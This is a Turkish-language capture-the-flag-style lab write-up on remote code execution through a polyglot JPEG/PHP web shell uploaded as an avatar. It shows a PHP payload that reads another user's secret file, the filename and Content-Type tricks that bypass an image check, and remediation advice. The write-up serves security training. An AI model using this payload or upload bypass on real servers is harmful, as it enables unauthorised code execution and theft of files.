








# Remote code execution via polyglot web shell upload

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda avatar upload fonksiyonu yüklenen dosyanın gerçekten görsel olup olmadığını kontrol ediyor. Bu nedenle doğrudan PHP web shell yükleme denemesi `Error: file is not a valid image` hatasıyla reddedildi. Ancak uygulama dosya içeriğinin başındaki görsel imzasına güveniyor ve dosya uzantısı `.php` olduğunda upload dizinindeki dosyayı PHP olarak çalıştırıyor. Gerçek bir JPEG dosyasının sonuna PHP payload'ı ekleyip dosya adını `.php` uzantılı göndermek, hem görsel kontrolünü geçmeyi hem de sunucuda kod çalıştırmayı sağladı.

## 3. Kullanılan Bilgiler

**Username:** `wiener`

**Password:** `peter`

**İlk denenen dosya:** `test.php`

**Polyglot dosya:** `Mehmet_Baris_Bozkurt.php`

**Temel görsel dosyası:** `Mehmet_Baris_Bozkurt.jpg`

**Payload:**

```php
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

**Erişilen dosya yolu:**

```http
/files/avatars/Mehmet_Baris_Bozkurt.php
```

## 4. Exploitation Steps

1. Verilen bilgilerle uygulamaya giriş yaptım ve `/my-account` sayfasındaki avatar upload alanına geldim.


2. İlk olarak PHP payload içeren `test.php` dosyasını seçtim.


3. Dosyanın içinde Carlos kullanıcısının secret dosyasını okuyan PHP payload'ı vardı.

```php
<?php
echo file_get_contents('/home/carlos/secret');
?>
```


4. `test.php` dosyasını avatar olarak yüklemeyi denedim.


5. Yüklenen dosyayı çağırmak için avatar görselini yeni sekmede açmayı denedim.


6. Burp Suite üzerinde upload response incelendiğinde uygulamanın dosyayı geçerli bir görsel olarak kabul etmediği görüldü.

```text
Error: file is not a valid image
Sorry, there was an error uploading your file.
```



7. Kontrolün gerçek bir görsel dosyayı kabul ettiğini doğrulamak için `Mehmet_Baris_Bozkurt.png` dosyası yüklendi. Response içinde dosyanın başarıyla yüklendiği görüldü.

```http
filename="Mehmet_Baris_Bozkurt.png"
Content-Type: image/jpeg
```



8. Aynı request üzerinde dosya adı `.php` uzantılı olacak şekilde değiştirildi. Dosya içeriği hâlâ JPEG verisiyle başladığı için uygulama içerik kontrolünü geçti.

```http
filename="Mehmet_Baris_Bozkurt.php"
Content-Type: image/jpeg
```



9. JPEG verisinin sonuna PHP payload'ı eklendi ve dosya tekrar `.php` uzantısıyla gönderildi. Response içinde `avatars/Mehmet_Baris_Bozkurt.php` dosyasının başarıyla yüklendiği görüldü.

```php
<?php
echo file_get_contents('/home/carlos/secret');
?>
```



10. My Account sayfasındaki avatar görseli artık yüklenen görsel dosyayı gösteriyordu. Avatarı yeni sekmede açarak direkt dosya URL'ine gittim.



11. `/files/avatars/Mehmet_Baris_Bozkurt.php` yolu çağrıldığında sunucu dosyayı PHP olarak yorumladı. Response başında JPEG binary içeriği görünse de en sonda PHP payload'ın çıktısı olarak Carlos kullanıcısının secret değeri yer aldı.

```http
GET /files/avatars/Mehmet_Baris_Bozkurt.php HTTP/2
```



12. Elde ettiğim secret değerini lab çözüm ekranına gönderdim.



13. Secret doğru olduğu için lab başarıyla çözüldü.



## 5. Impact

Saldırgan, yalnızca dosyanın başındaki görsel imzasına veya yüzeysel içerik kontrollerine güvenen upload mekanizmalarını polyglot dosyalarla bypass edebilir. Upload dizininde script execution açıksa, geçerli görsel gibi görünen `.php` dosyası çalıştırılarak remote code execution elde edilebilir, hassas dosyalar okunabilir ve uygulama sunucusu üzerinde daha geniş erişim kazanılabilir.

## 6. Remediation

Upload edilen dosyalar yalnızca istemciden gelen `Content-Type`, dosya uzantısı veya basit magic byte kontrolüne göre kabul edilmemelidir. Uygulama allowlist tabanlı uzantı ve MIME kontrolü yapmalı, dosyanın içeriğini güvenilir sunucu tarafı kütüphanelerle yeniden işlemeli ve dosyayı güvenli bir formatta yeniden encode etmelidir. Yüklenen dosyalar rastgele güvenli isimlerle kaydedilmeli, upload dizininde script execution kapatılmalı ve mümkünse dosyalar web root dışında saklanmalıdır.
